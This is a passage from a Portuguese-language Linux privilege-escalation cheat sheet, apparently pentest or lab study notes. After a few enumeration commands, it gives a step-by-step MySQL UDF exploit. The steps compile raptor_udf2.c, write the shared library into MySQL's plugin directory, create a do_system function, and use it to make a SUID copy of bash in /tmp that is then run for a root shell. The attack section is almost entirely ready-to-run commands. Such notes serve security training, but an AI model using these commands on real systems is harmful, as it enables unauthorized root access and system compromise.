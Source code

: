 ```bash
ls -alh /var/log/postgresql/
ls -alh /var/log/proftpd/
ls -alh /var/log/samba/
```

---

### 2.11. Sistemas de arquivos montados

```bash
mount
df -h

cat /etc/fstab
```

<div style="page-break-after: always;"></div>

## 3. Service Exploits

### 3.1. Se MySQL service rodar com privilégios root:

O site https://www.exploit-db.com/exploits/1518 contem o código necessário à criação do ficheiro raptor_udf2.c

```bash
cd /home/user/tools/mysql-udf
nano raptor_udf2.c             # Colocar neste novo ficheiro o código do site acima indicado
gcc -g -c raptor_udf2.c -fPIC  # Compila o raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

-   Conectar-se ao MySQL service enquanto **root**

```bash
mysql -u root
```

-   Usar os seguintes comandos no MySQL shell para criar User Defined Function (UDF) "do_system":

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select \* from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
	# Usar a função para copiar o bash para tmp/rootbash e dar a respectiva "SUID permission"
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
	# Sair do MySQL shell
exit
```

-   Executar o novo bash **root**:

```bash
/tmp/rootbash -p
```
